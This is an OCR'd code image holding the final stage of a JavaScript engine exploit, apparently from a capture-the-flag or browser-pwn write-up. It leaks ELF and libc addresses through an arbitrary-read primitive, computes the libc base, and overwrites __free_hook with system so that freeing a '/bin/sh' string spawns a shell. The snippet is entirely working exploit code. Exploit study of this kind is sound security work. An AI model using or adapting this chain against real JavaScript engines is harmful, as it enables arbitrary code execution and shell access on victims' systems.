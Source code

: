 ```JavaScript
var elf_addr = 0n;
while ( 1 ) {
    start_addr -= 0x8n;
    elf_addr = arb_read(start_addr);
    if (((elf_addr & 0xff0000000000n) == 0x560000000000n && (elf_addr & 0x1n) == 0) || ((elf_addr & 0xff0000000000n) == 0x550000000000n && (elf_addr & 0x1n) == 0)) {
        console.log("0x" + hex(elf_addr));
        break;
    }
}
console.log("done");

start_addr = elf_addr;
var libc_addr = 0n;
var suffix = 0x0;
while (1) {
    start_addr += 0x8n;
    libc_addr = arb_read(start_addr);
    if (((libc_addr & 0xff0000000000n) == 0x7f0000000000n)) {
        console.log("0x" + hex(libc_addr));
        suffix = (libc_addr & 0xfffn);
        break;
    }
}

var libc_base = libc_addr - 0x1ec000n - suffix;
var free_hook_addr = libc_base + 0x1eee48n;
var system_addr = libc_base + 0x52290n;
console.log("[+] libc_base : 0x" + hex(libc_base));
// %SystemBreak();
function exp() {
    var aaa = "/bin/sh\x00";
}
writeDataview(free_hook_addr, system_addr);
exp();

```